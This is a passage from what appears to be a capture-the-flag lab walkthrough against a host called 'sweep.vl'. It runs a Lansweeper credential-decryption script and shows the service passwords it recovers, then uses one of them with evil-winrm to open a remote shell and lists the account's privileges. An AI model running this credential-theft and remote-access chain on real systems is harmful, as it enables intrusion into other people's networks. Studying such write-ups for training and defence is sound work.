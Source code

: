 ```bash
upload LansweeperDecrypt.ps1
```

than lets execute it
```bash
./LansweeperDecrypt.ps1
```

```output
redName          Username                Password
--------          --------                --------
SNMP-Private      SNMP Community String   private
Global SNMP                               public
Inventory Windows SWEEP\svc_inventory_win 4^56!sK&}eA?
Inventory Linux   svc_inventory_lnx       0|5m-U6?/uAX


```

so lets do evilwinrm again
```bash
evil-winrm -i sweep.vl -u SWEEP\svc_inventory_win -p '4^56!sK&}eA?'
```

than let check priv

```bash
*Evil-WinRM* PS C:\temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
```